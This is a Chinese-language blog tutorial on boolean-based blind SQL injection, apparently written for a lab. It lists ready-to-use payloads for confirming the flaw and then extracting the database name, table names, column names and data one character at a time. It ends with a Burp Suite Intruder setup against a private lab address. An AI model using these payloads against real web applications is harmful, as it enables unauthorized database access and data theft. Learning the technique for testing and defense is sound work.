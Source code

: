 title: SQL布尔盲注(延时注入后面再写)
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-03-12 10:39:00
---
#### 表现
在测试中不会展现任何数据库报错内容，但是网页中真和假有着不同的回显。
或者为真时返回正常页面，为假时跳转到其它页面等。

#### 原理
在后端的PHP代码中，对你传入的数据进行了处理并判断
判断是True或False会执行不同代码

#### 开始注入(二分法)
##### 判断注入点
使用一些判断真假的语句来进行判定
当它是数字型时:
```
1' and 1=0 --+
1' and 1=1 --+
```
如果第一个与第二个回显不一样那么可能是布尔盲注
但是不排除有些丧心病狂的扑街预判了你的预判
这时候修改为不常见的数值（如1352=1352等）

当它是字符串型注入时:
```
1' and '1'='114514 --+
1' and '1'='666 --+
```

##### 猜数据库名长度
这个应该很好理解吧，既然它不告诉你有啥，那你就自己猜咯。
刚刚好又有and可以判断语句，是不是天无绝人之路？
```
1' and (length(database()))>x--+
```
当报错的时候就说明数据库名字长度是x-1了嘛

##### 猜数据库名（ASCII码）
```
1' and ascii(substr(database(),1,1))>100--+
1' and ascii(substr(database(),1,1))<150--+
```
这样子一直用二分法来缩小数据库名的ASCII码范围直到求出最终值。
是不是很麻烦？是就对了！
现在是告诉你注入原理，不看就滚犊子。

##### 猜表名
```
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100--+
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))<150--+
```
方法其实是和前面的联合查询注入一样的，多了个二分法而已
其实拿SQLmap和BP跑也是差不多的原理，只是自动化注入罢了

##### 猜字段名
```
1' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))>50--+
1' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))<80--+
```
还是一样的

##### 猜数据
```
1' and (ascii(substr(( select  id users limit 0,1),1,1)))<80--+
1' and (ascii(substr(( select  id users limit 0,1),1,1)))>30--+
```
仍然是一样的

#### 开始注入(字符判断法)
数据库名字长度的判断跟上面的的一样
对每一位猜解都要写很多次判断语句
判断这些字符数字
```
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_
```

#### 使用Burp_Suite注入
由于手工进行一一判断，工作量较大，可使用Burp_Suite中的字典进行。
1、抓包并将数据包传送到intruder
2、对对应位置进行上面提到的字符数字爆破:
```
http://192.168.162.128/?id=1' and if(SUBSTRING(database(),$1$,1)=$d$,1,0)–+&Submit=Submit#
```
payload set中分别设置并开始attack:
number类型，从1到数据库名字长度，步长为1
simple list类型，导入字符数字的字典

***后面的同理，自己举一反三吧***